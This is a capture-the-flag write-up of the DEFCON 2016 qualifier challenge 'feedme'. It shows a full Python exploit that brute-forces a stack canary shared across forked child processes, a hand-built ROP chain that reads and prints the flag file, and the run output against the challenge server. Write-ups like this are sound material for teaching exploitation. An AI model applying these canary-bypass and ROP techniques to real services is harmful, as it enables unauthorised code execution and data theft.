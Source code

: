 #feedme - DEFCON 2016

First at all execute `file` command on the binary
```bash
$ file feedme 
feedme: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, stripped
```

and with `checksec` we see that NX is enabled and debugging a little bit we realize that the usage of the binary is simple: a "parent" process launches child processes that takes 1 byte `x`, than reads `x` number of bytes. But the length of the buffer is 32, so if we send "\x36" + "A"*0x36 the canary is overwritten and smash the stack detected. 

So we have to leak the canary in order to overwrite the return address. The bug was that child's canary is always the same, so we can try to send 0x32 bytes of garbage and bruteforce the 33th byte (easy, always `\x00`), then the 34th, then the 35th and 36th one.

This part of the exploit is 

```python 
#!/usr/bin/env python2

import sys, socket, telnetlib
from struct import *
import random
import time
import binascii
import time
def recvuntil(t):
    data = ''
    while not data.endswith(t):
        tmp = s.recv(1)
        if not tmp: break
        data += tmp

    return data

def interactive():
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()

def p32(x): return pack('<I', x)
def u32(x): return unpack('<I', x)[0]
def p64(x): return pack('<Q', x)
def u64(x): return unpack('<Q', x)[0]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1], int(sys.argv[2])))
recvuntil("FEED ME!\n")
canary = "\x00"
while len(canary)!=4:
	for brute in range(0,255):
		#print brute
		init = binascii.unhexlify(hex(32+len(canary)+1)[2:])
		garbage = "A"*32
		
		if len(hex(brute)[2:])==1:
			pad = "0"
		else:
			pad = ""
		tryLeakByteCanary = binascii.unhexlify(pad + hex(brute)[2:])
		s.send(init + garbage + canary+ tryLeakByteCanary)
		data = recvuntil("FEED ME!\n")
		if "YUM" in data:
			print "LEAKED: "  + str(tryLeakByteCanary)
			print data
			canary += tryLeakByteCanary
			break
```

and then we write a ROPchain that reads `flag` string, open `flag` file and write its content to std output (we spent a lot of time trying to execve /bin/sh, we wrote custumized ROPchain also. Only after some hours we decided to follow this way. After solving the challenge we read on IRC "pwnables have busybox -> /bin/sh. Your execve shell code is probably broken" -> **** off!).

```python
p = ''
p += p32(0x080bb496) #pop eax
p += p32(0x3)#read sys
p += p32(0x0806f370)  #pop edx pop ecx pop ebx
p += p32(0x5)#flag\x00
p += p32(0x080eaf80)#BSS address
p += p32(0x0)
p += p32(0x0806FA20) #int 80


p += p32(0x080bb496) #pop eax
p += p32(0x5) #fopen
p += p32(0x0806f370)  #pop edx pop ecx pop ebx
p += p32(0x0)
p += p32(0x0)
p += p32(0x080eaf80) #address of flag string
p += p32(0x0806FA20) #int 80

p += p32(0x080bb496) #pop eax
p += p32(0x3) #read sys
p += p32(0x0806f370)  #pop edx pop ecx pop ebx
p += p32(0x100) #length
p += p32(0x080ea060) #.data address
p += p32(0x2) #FD
p += p32(0x0806FA20) #int 80

p += p32(0x080bb496) #pop eax
p += p32(0x4) #write sys
p += p32(0x0806f370)  #pop edx pop ecx pop ebx
p += p32(0x100) #length
p += p32(0x080ea060)#address
p += p32(0x01) #FD
p += p32(0x0806FA20) #int 80
``` 

PWN THEM!!

```python
init = binascii.unhexlify(hex(len(garbage + canary + "A"*12 + p))[2:])
s.send(init + garbage + canary + "A"*12  + p)
print recvuntil("...\n")
print "interactive "
s.send("flag\x00")
interactive()
```

```bash
$ python exploit.py feedme_47aa9b0d8ad186754acd4bece3d6a177.quals.shallweplayaga.me 4092
LEAKED: R
ATE 41414141414141414141414141414141...
YUM, got 34 bytes!
Child exit.
FEED ME!

LEAKED: 
ATE 41414141414141414141414141414141...
YUM, got 35 bytes!
Child exit.
FEED ME!

LEAKED: �
ATE 41414141414141414141414141414141...
YUM, got 36 bytes!
Child exit.
FEED ME!

CHECK len(canary): 4
�anary: R
PWN THEM!!

ATE 41414141414141414141414141414141...

interactive 
The flag is: It's too bad! we c0uldn't??! d0 the R0P CHAIN BLIND TOO
��������@�
         Child exit.
FEED ME!
```

The full exploit is available here the full exploit is available [here](exploit.py)! 
